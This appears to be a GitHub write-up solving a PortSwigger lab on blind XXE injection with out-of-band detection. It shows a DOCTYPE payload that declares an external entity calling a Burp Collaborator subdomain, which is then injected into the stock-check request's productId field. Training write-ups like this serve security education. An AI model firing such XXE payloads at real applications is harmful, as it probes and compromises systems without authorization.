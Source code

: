 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b9730770-0535-46ac-94df-6503b8be2f41)

## Solution:

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/c7e037c7-d058-4d36-a9ac-011b312ddd4d)

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`

Replace the productId number with a reference to the external entity: `&xxe;`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/15b09253-e938-407b-80f9-f3dc351c2a00)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0e08fcc8-3f8b-4d01-bc59-89dd2e03d35f)

Lab Solved:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f0068f92-b5d7-4367-b476-2ed451b6b981)



